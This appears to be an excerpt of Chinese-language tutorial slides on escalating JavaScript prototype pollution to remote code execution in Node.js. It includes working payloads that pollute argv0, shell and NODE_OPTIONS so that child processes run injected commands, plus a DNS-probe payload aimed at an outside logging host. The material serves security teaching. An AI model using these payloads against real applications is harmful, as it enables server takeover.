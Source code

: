
#### 通过命令行参数实现原型链污染到 RCE

另一种攻击方式是利用 `/proc/self/cmdline` 文件存储恶意代码，并通过污染 `argv0` 实现：

```javascript
const { execSync, fork } = require("child_process");

// 手动污染示例
b = {};
b.__proto__.argv0 =
  "console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//";
b.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline";

var proc = fork("./a_file.js"); // 创建 /tmp/pp2rce2

// 利用漏洞代码
USERINPUT = JSON.parse(
  '{"__proto__": {"NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce2\\").toString())//"}}',
);

clone(USERINPUT);

var proc = fork("a_file.js"); // 执行成功
```

---

#### DNS 探测攻击

通过污染 `NODE_OPTIONS` 触发 DNS 请求，可用于漏洞验证：

```json
{
  "__proto__": {
    "argv0": "node",
    "shell": "node",
    "NODE_OPTIONS": "--inspect=xxx.dnslog.cn"
  }
}
```

---
layout: two-cols-header
---

#### 各子进程方法的利用方式

不同 `child_process` 方法对原型污染的利用方式有所差异：

::left::

- `exec` 方法：

```javascript
// 通过 cmdline 技巧
const { exec } = require("child_process");
p = {};
p.__proto__.shell = "/proc/self/exe"; // 确保执行 node
p.__proto__.argv0 = "恶意代码";
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline";
var proc = exec("任意命令");
```

